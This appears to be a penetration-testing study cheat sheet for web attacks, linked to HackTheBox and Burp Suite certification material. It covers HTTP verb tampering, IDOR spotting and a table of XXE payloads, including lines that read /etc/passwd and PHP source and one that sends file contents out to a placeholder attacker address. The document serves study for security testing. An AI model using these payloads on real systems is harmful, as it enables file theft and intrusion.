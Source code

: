 # Web Application Attacks  

>My [Burp Suite Certified Practitioner Study material](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md) cover some of the same topics listed here, with more detail.  
>[HackTheBox Academy Web Attacks](https://academy.hackthebox.com/module/134/section/1158)  

## HTTP Verb Tampering

>HTTP has 9 different [verbs](https://academy.hackthebox.com/module/134/section/1159) that can be accepted as HTTP methods by web servers.  
>[HTTP Request Methods Mozilla Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)  

`HTTP Method`
- `GET`
- `HEAD`
- `POST`
- `PUT`
- `DELETE`
- `CONNECT`
- `OPTIONS`
- `PATCH`
- `TRACE`
  
| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
